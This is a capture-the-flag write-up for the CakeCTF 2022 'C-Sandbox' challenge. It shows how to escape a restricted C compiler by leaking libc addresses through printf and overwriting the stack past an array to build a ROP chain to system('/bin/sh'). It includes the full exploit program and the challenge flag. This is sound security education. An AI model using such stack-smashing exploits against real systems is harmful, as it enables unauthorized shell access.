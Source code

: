 ```yaml
---
title: "[Misc] C-Sandbox"
date: 2022-09-04 13:47:00
---
```


# 0x0 Introduction

I designed a restricted C compiler! nc misc.2022.cakectf.com 10099

files: [c_sandbox_c85cfad2fce8c0c6ac1dc144a1e4229c.tar.gz](c_sandbox_c85cfad2fce8c0c6ac1dc144a1e4229c.tar.gz)

# 0x1 Walk through

Basically, the server will compile a C program and execute it. But it only allows 4 function to be called.


`sandbox.cpp`
```cpp
/* Allow these function calls */
        if (func && 
            (func->getName() == "puts"
             || func->getName() == "printf"
             || func->getName() == "__isoc99_scanf"
             || func->getName() == "exit"))
          continue;
```

Our goal is to get shell with this restriction. 

My first approach is using `asm` in C code. However, the sandbox also detect it and prevent me from executing asm codes.

Then, I tried my second solution. constructing a rop chain. 

Since we can use printf/puts in our code. We can simply print out the whole stack and find the libc address. Moreoever, The challenge also provide us a Dockerfile, so we can easily extract libc from it and get the libc functions offsets.

```c
printf(
        "1.%1$p\n2.%2$p\n3.%3$p\n4.%4$p\n5.%5$p\n6.%6$p\n7.%7$p\n8.%8$p\n"
        "9.%9$p\n10.%10$p\n11.%11$p\n12.%12$p\n13.%13$p\n14.%14$p\n15.%15$p\n16.%16$p\n"
        );
```

Modify the stack in C is very straighforward, just create a long array and modify the stack value using index.
```c
long x[1];
x[10] = 0x1 ; // modify the stack
```

# 0x2 Solution

```c
long __libc_start_main_ret = 0x24083;
long system_o = 0x52290;
long str_bin_sh = 0x1b45bd;
long pop_rdi_ret = 0x23b6a;
long ret_o = 0x22679;

int main()
{
    long x[1];
    x[0] = 0xffffffffffffffff;
    printf(
        "1.%1$p\n2.%2$p\n3.%3$p\n4.%4$p\n5.%5$p\n6.%6$p\n7.%7$p\n8.%8$p\n"
        "9.%9$p\n10.%10$p\n11.%11$p\n12.%12$p\n13.%13$p\n14.%14$p\n15.%15$p\n16.%16$p\n"
        );
    
    x[0] = x[2]-__libc_start_main_ret;
    printf("%p\n",x[0]);
    printf("%s\n",(char *)(x[0]+str_bin_sh));
    x[2] = x[0] + ret_o;
    x[3] = x[0] + pop_rdi_ret;
    x[4] = x[0] + str_bin_sh;
    x[5] = x[0] + system_o;
}
```

# 0x3 Flag & Thoughts

It is actually more like a pwn problem.

`CakeCTF{briI1ng_yoO0ur_oO0wn_gaA4dgeE3t!}`